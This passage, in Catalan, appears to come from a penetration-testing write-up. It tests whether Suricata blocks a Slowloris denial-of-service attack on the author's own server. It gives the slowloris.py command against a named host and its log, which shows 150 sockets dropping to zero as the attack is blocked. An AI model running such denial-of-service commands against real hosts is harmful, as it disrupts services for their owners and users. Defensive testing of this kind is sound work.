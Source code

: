 <img src="..\assets\images\pentesting\direct\resultatanalisis.png" alt="Bloqueig direccions IP Suricata " width="700" style="display: block; margin-left: auto; margin-right: auto;"/>

## Explotació

Anem a provar amb un atac Slow Loris un altre pic, ara directament al servidor. Començarem amb 150 sockets.

### Slowloris - 150 Sockets.

L'atac Slowloris de 150 sockets ha estat bloquejat de manera bastant efectiva. Podem veure que s'ha bloquejat l'atac de manera bastant efectiva i no s'ha vist alterat el servei.
```bash
@extern $ python3 slowloris.py plex.espardenya.me        
[04-08-2022 18:06:27] Attacking plex.espardenya.me with 150 sockets.
[04-08-2022 18:06:27] Creating sockets...
[04-08-2022 18:06:36] Sending keep-alive headers... Socket count: 150
[04-08-2022 18:06:51] Sending keep-alive headers... Socket count: 150
[04-08-2022 18:07:10] Sending keep-alive headers... Socket count: 0
[04-08-2022 18:07:29] Sending keep-alive headers... Socket count: 0
[04-08-2022 18:07:48] Sending keep-alive headers... Socket count: 0
[04-08-2022 18:08:07] Sending keep-alive headers... Socket count: 0
```
